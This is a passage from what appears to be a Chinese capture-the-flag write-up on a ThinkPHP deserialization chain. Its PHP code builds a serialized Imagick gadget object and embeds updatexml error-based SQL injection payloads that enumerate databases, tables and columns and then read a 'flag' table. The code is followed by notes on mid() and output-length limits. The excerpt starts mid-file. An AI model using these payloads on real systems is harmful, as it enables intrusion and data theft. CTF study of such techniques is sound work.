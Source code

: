 ```php
    use Think\Db\Driver\Mysql;
    class Model{
        protected $options = array();
        protected $pk;
        protected $data = array();
        protected $db = null;
        public function __construct(){
            $this->db = new Mysql();
            $this->options['where'] = '';
            $this->pk = 'id';
            $this->data[$this->pk] = array(
                //查看数据库名称
                // "table" => "mysql.user where updatexml(1,concat(0x7e,mid((select(group_concat(schema_name))from(information_schema.schemata)),30),0x7e),1)#",
                //数据库名称：'~information_schema,mysql,performance_schema,sys,test~'
                //一次能够读取的长度有限，分两次读取数据  使用mid函数分开读取

                //查表名
                // "table" => "mysql.user where updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),0x7e),1)#",
                // ~flag,users~

                // 查列名
                //"table" => "mysql.user where updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),0x7e),1)#",
                //~flag~

                //查字段值
                "table" => "mysql.user where updatexml(1,concat(0x7e,mid((select`*`from`flag`),1),0x7e),1)#",
                "where" => "1=1"
                
            );
        }
    }
}
namespace {
    echo base64_encode(serialize(new Think\Image\Driver\Imagick()));
}


```

其中报错注入的部分，要注意update最多只能显示32为，可以使用substr或者reverse来搭配使用

而师傅的wp采用了mid()函数来进行部分截取

```
mid(str, start, length)
str：要提取子字符串的原始字符串。
start：开始提取的位置。注意，MySQL 中的位置是基于 1 的索引，即第一个字符的位置为 1。如果 start 是负数，则表示从字符串的末尾开始计算位置。
length：可选参数，表示要提取的子字符串的长度。如果省略，则提取从 start 位置到字符串结尾的所有字符。
```
